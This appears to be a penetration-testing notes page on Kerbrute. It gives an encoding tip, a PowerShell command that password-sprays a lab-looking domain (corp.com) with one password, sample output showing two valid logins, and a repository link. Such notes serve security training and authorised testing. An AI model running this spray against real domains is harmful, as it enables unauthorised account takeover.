 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerbrute

> _Ensure the files is encoded in **ANSI**, not UTF-8 with BOM. If you see strange network errors from `kerbrute`, try re-saving the file in Notepad with **Encoding: ANSI** via "Save As"._

## Password Spraying

{% code overflow="wrap" %}
```powershell
> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
...
2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/ropnop/kerbrute" %}
{% endtab %}
{% endtabs %}
